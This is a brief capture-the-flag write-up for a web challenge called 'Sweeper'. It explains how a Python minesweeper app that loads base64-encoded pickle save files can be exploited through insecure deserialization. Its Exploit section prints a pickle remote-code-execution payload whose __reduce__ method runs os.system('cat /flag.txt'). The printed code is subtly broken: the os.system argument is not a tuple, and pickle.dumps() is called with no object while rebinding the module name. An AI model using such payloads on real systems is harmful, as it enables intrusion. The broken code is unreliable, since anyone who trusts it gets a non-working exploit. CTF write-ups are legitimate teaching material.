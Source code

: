 # CyberOpen Season II - Sweeper - Web Exploitation

## Challenge Description

A twist on a classic game. Tread lightly while you dig up the flag.

## High-level summary

This custom python implementation of Windows' classic minesweeper game has a RCE vulnerability through insecure deserialization in the load/save aspect of the web application. The save files are base64 encoded python pickle objects that can be used to obtain RCE.

## Investigation

![Alt text] (./images/hexdump.PNG?raw=true "Hexdump")

## Exploit

```python
import os
import pickle
import base64

class RCE():
    def __reduce__(self):
        return (os.system, "cat /flag.txt",)

if __name__ == '__main__':
    pickle = pickle.dumps()
```
